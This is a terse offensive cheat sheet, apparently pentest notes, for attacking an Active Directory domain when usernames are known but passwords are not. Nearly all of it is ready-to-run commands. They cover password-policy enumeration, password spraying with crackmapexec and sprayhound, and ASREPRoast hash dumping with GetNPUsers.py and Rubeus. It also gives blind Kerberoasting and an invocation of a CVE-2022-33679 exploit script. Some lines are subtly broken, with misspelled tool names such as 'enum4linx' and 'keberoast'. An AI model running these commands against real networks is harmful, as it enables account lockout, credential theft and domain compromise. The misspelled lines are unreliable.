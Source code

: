 # Username - no password  
  
## 🔥Password spray  
## Get password policy (need creds, but you should get the policy before starting a spray)  
	cme <IP> -u 'user' -p 'password' --pass-pol  
	enum4linx -u 'username' -p 'password' -P <IP>  
	Get-ADDefaultDomainPasswordPolicy  
	FGPP  
		 Get-ADFineGrainedPasswordPolicy -filter *  
		Get-ADUserResultantPasswordPolicy -Identity <user>  
		ldapsearch-ad.py --server '<dc>' -d <domain> -u <user> -p <pass> --type pass-pols  

cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce ## test user=password  
cme smb <dc-ip> -u user.txt -p password.txt ## multiple test (carrefull of lock policy)  
sprayhound -U <users.txt> -d <domain> -dc <dcip>  
  
	  
	  
## ASREPRoast  
Get ASREPRoastable users (need creds)  
	Get-DomainUser -PreauthNotRequired -Properties SamAccountName  
	MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p  
Get hash  
	python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>  
	Rubeus.exe asreproast /format:hashcat  
Blind Kerberoasting  
	Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>  
	GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/  
	Hash found (TGS)  
CVE-2022-33679  
	python3 CVE-2022-33679.py <domain>/<user> <target>  
  
